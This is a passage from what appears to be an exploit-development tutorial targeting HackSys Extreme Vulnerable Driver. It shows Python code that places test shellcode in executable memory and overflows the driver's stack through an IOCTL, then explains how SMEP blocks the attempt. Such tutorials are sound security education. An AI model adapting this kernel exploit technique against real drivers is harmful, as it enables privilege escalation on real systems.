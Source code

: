 ``` python
SHELLCODE = (
    b'\xb8\xef\xbe\xad\xde' +     # mov eax,0xdeadbeef
    b'\xcc'                       # INT3 -> software breakpoint
)

RET_PTR = KERNEL32.VirtualAlloc(
    c_int(0),                    # lpAddress
    c_int(len(SHELLCODE)),       # dwSize
    c_int(0x3000),               # flAllocationType = MEM_COMMIT | MEM_RESERVE
    c_int(0x40)                  # flProtect = PAGE_EXECUTE_READWRITE
)

KERNEL32.RtlMoveMemory(
    c_int(RET_PTR),              # Destination
    SHELLCODE,                   # Source
    c_int(len(SHELLCODE))        # Length
)

PAYLOAD = (
    b'A' * 2080 +
    struct.pack('<L', RET_PTR)
)

SIZE = len(PAYLOAD)

HANDLE = DeviceIoControl(DEVICE_NAME)
HANDLE.ioctl(IOCTL_HEVD_STACK_OVERFLOW, PAYLOAD, SIZE, 0, 0)
```

If everything comes as expected, `EAX` will have the value `0xdeadbeef`
and execution will pause at the inserted breakpoint `\xcc`. Let’s check
it:

<div class="imgblock">

![SMEP in action](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330917/blog/hevd-smep-bypass/smep1_zdy5uw.gif)

</div>

Ouch\!

Our exploit was thwarted and the error
`ATTEMPTED_EXECUTE_OF_NOEXECUTE_MEMORY` was triggered when the first
instruction of our shellcode was trying to execute. That means that
`SMEP` did protect the kernel.

## SMEP: Supervisor Mode Execution Prevention

There’s a concept called [Protection
rings](https://en.wikipedia.org/wiki/Protection_ring) which is used by
operating systems to delimit capabilities and provide fault tolerance,
by defining levels of privileges. Windows OS versions uses only 2
Current Privilege Levels (`CPL`): 0 and 3. `CPL` levels are also
referred as `rings`. `CPL0` or `ring-0` is where the kernel is executed
and `CPL3` or `ring-3` is where user mode instructions are performed.
